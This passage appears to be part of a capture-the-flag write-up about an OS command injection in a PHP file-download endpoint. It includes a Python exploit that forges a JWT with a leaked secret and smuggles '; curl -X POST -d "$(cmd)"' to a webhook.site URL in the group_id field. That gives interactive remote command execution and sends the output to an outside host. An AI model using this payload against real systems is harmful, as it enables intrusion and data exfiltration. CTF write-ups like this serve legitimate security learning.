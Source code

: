 ```php

if ($retval === 0) {
    header("Content-Type: application/octet-stream", true);
    print file_get_contents($tmp_f_name);
    unlink($tmp_f_name);
} else {
    http_response_code(500);
    exit();
}
```

There is an OS Command Injection vulnerability. We can create a cookie with a `group_id` containing a command and get RCE.

```python
# Add this in the Challenge class
def rce(self, cmd):
    JWT_SECRET = "WP{fr0m_bl4ckb0x_2_wh1t3b0x}"
    WEBHOOK = "https://webhook.site/b217b4bf-6acc-4ab2-903c-a3ada20363fd"
    group_id = f';  curl -X POST -d "$({cmd})" {WEBHOOK}'
    payload_jwt = {
        "user_id": 928476593,
        "user": "sadf",
        "pass": "asd",
        "full_name": "WP{R00t_Sm1th}",
        "group_id": group_id,
        "permissions": {
            "upload": "1",
            "listFiles": "1",
            "deleteFiles": "1",
            "listUsers": "1",
            "download": "1",
        },
    }
    jwt_asfd = jwt.encode(payload_jwt, JWT_SECRET, algorithm="HS256")

    self.s.headers.update({"Authorization": "Bearer " + jwt_asfd.decode()})
    self.s.get(_(path="/api/filesdownloadall.php"))

while True:
    cmd = input("command:")
    c.rce(cmd)
```

You will find the output of the command on your webhook. Execute `cat /flag-deadc0de` to get the flag.

![Untitled](images/Untitled%202.png)
